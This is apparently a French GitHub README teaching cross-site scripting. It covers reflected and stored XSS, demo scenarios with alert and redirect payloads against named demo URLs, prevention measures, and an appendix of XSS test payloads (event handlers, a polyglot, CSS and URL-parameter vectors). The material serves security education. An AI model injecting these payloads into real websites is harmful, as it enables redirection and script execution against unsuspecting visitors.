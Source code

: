 # Introduction

Les attaques XSS (Cross-Site Scripting) sont des vulnérabilités web critiques qu'il est important de comprendre dans un contexte pédagogique. Voici une présentation structurée de ce type d'attaque.

# Types d'attaques XSS principaux

**XSS Réfléchi (Reflected)**
- L'attaque se produit lorsque les données malveillantes sont immédiatement renvoyées à l'utilisateur
- Nécessite que la victime clique sur un lien spécialement conçu
- Cible souvent les pages de recherche et les messages d'erreur

**XSS Persistant (Stored)**
- Le code malveillant est stocké sur le serveur de manière permanente
- Affecte tous les visiteurs de la page compromise
- Particulièrement dangereux car peut toucher des milliers d'utilisateurs

# Démonstration 

![image](https://github.com/user-attachments/assets/ae85fbc2-df75-48e4-b0d4-a83e80c5ace6)

**Scénario 1**
```javascript
// Exemple de payload basique pour démonstration
<script>alert('XSS!')</script>
```

- http://latestworlds.com/demo/
- http://latestworlds.com/demo/article.php?id=1#
![image](https://github.com/user-attachments/assets/0a95be5e-17f1-4507-9362-79465c1ff144)
![image](https://github.com/user-attachments/assets/53434e99-3082-4cf8-9f03-4856691a060c)
![image](https://github.com/user-attachments/assets/b8f16c7f-3b86-41d4-9f44-c2c15c4c2c24)
![image](https://github.com/user-attachments/assets/9aeacbd8-4088-4df8-93b8-9f7e0500854a)
![image](https://github.com/user-attachments/assets/3499c6e2-b003-49ec-a200-0c21b87457d0)




**Scénario 2**

Le script est le suivant :

```html
<script>alert("XSS Stocké !!!");</script>
```

Ceci montre une démonstration d'une attaque **XSS stockée (Cross-Site Scripting)** où un script malveillant est injecté dans un formulaire et peut être exécuté côté client.

**Scénario 3**

### Script XSS pour redirection
```html
<script>window.location.href="https://boutique.rapidopresco.com/";</script>
```

### Explication
- **`<script>`** : Balise JavaScript qui exécute le code.
- **`window.location.href`** : Permet de rediriger l'utilisateur automatiquement vers le site souhaité.

---

### Exemple d'injection
Ajoutez ceci dans le champ de commentaire ou de pseudo pour simuler une attaque XSS stockée ou réfléchie :

```html
<script>alert('Alerte XSS !'); window.location.href="https://boutique.rapidopresco.com/";</script>
```

---

### **Pédagogie et Sécurité**
- Cette démonstration sert à montrer l'impact d'une mauvaise validation des entrées.
- Il est important d'assainir (sanitize) les données côté serveur pour éviter l'exécution de scripts malveillants.  





**Points importants**
- Ne jamais tester sur des sites réels
- Utiliser uniquement des environnements contrôlés
- Mettre l'accent sur la prévention et la sécurisation

# Impacts et risques

**Conséquences possibles**
- Vol de cookies et sessions utilisateurs
- Hameçonnage et vol d'identifiants
- Détournement de sessions authentifiées
- Modification du contenu des pages

# Prévention

**Mesures de sécurité essentielles**
- Validation stricte des entrées utilisateur
- Encodage HTML des sorties
- Utilisation de frameworks sécurisés
- Mise en place d'une Content Security Policy (CSP)

-------------------
# Annexe :
-------------------

## Scripts XSS pour tests pédagogiques

**Scripts basiques**
```javascript
// Affichage simple
<script>alert('XSS Test')</script>
// Utilisation de fromCharCode
<a href="javascript:alert(String.fromCharCode(88,83,83))">Cliquez ici</a>
```

**Scripts avec gestionnaires d'événements**
```html
// Utilisation de onerror
<img src="inexistant" onerror="alert('XSS via onerror')">
// Utilisation de onload avec SVG
<svg onload=alert('XSS')>
// Utilisation de BODY
<BODY ONLOAD=alert('XSS')>
```

**Scripts avancés**
```javascript
// Script polyglot multi-contextes
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>

// Style avec list-style-image
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

## Contextes d'utilisation

**Test de validation d'entrées**
```javascript
// Injection dans les paramètres URL
?keyword=<script>alert("Test XSS")</script>

// Injection dans les formulaires
<img src="aaaaa" onerror="alert('Bypass filtres');" />
```

Il est crucial de n'utiliser ces scripts que dans un environnement de test contrôlé et isolé.



